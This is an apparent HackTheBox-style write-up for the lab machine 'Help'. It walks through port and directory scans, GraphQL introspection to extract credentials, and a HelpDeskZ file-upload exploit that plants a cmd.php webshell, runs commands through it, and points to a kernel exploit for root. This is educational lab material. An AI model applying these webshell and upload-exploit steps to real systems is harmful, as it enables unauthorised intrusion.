









# Help

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 -Pn 10.129.71.39
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 15:38 EDT
Nmap scan report for 10.129.71.39
Host is up (0.0079s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```

We have to add `help.htb` to the `/etc/hosts` file to access port 80.

### GraphQL

This port had a HTTP API running:

```
$ curl http://help.htb:3000/                      
{"message":"Hi Shiv, To get access please find the credentials with given query"}
```

I ran a `gobuster` scan to find any places that I could send queries.

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://help.htb:3000 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://help.htb:3000
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/06 15:43:46 Starting gobuster in directory enumeration mode
===============================================================
/graphql              (Status: 400) [Size: 18]
```

GraphQL was present. So we need to send `query` parameters and hopefully find some credentials or other information from this. We can use this to see all types and argument accepted:

<pre class="language-http"><code class="lang-http"><strong>?query={__schema{types{name,fields{name, args{name,description,type{name, kind, ofType{name, kind}}}}}}}
</strong></code></pre>

At the top, we see this:



This means we can query `username` and `password` fields from `user`, which would make `{user{username,password}}`.



The hash is crackable on CrackStation.



### HelpDeskZ

On port 80, it just shows the default Apache2 page:



Doing a `gobuster` scan reveals some directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://help.htb: -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://help.htb:
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/06 15:49:06 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 292]
/javascript           (Status: 301) [Size: 309] [--> http://help.htb/javascript/]
/server-status        (Status: 403) [Size: 296]
/support              (Status: 301) [Size: 306] [--> http://help.htb/support/]
```

`/support` reveals a HelpDeskZ instance:



We can login with `helpme@helpme.com:godhelpmeplz`. From the HelpDeskZ repository, there's a `readme.html` file present where we can find the version that is running.



This version has an exploit available:

```
$ searchsploit helpdeskz  
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
HelpDeskZ 1.0.2 - Arbitrary File Upload                    | php/webapps/40300.py
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauth | php/webapps/41200.py
----------------------------------------------------------- ---------------------------------
```

First we need to open a ticket and then upload a `cmd.php` webshell.



Then we can submit this, and even though the website says the file type is not allowed, **the file is still uploaded onto the website**. Then, we can use `40200.py` to find it.

```
$ python2 40300.py http://help.htb/support/uploads/tickets/ cmd.php  2> /dev/null
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
found!
http://help.htb/support/uploads/tickets/39a4def6c8a341531c5668661046e30d.php
$ curl http://help.htb/support/uploads/tickets/39a4def6c8a341531c5668661046e30d.php?cmd=id
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
```

Then, we can get a reverse shell easily and capture the user flag.



## Privilege Escalation

### Kernel Exploit

The machine is running an outdated version of Linux:

```
help@help:/home/help$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

We can use this kernel exploit to get a root shell:




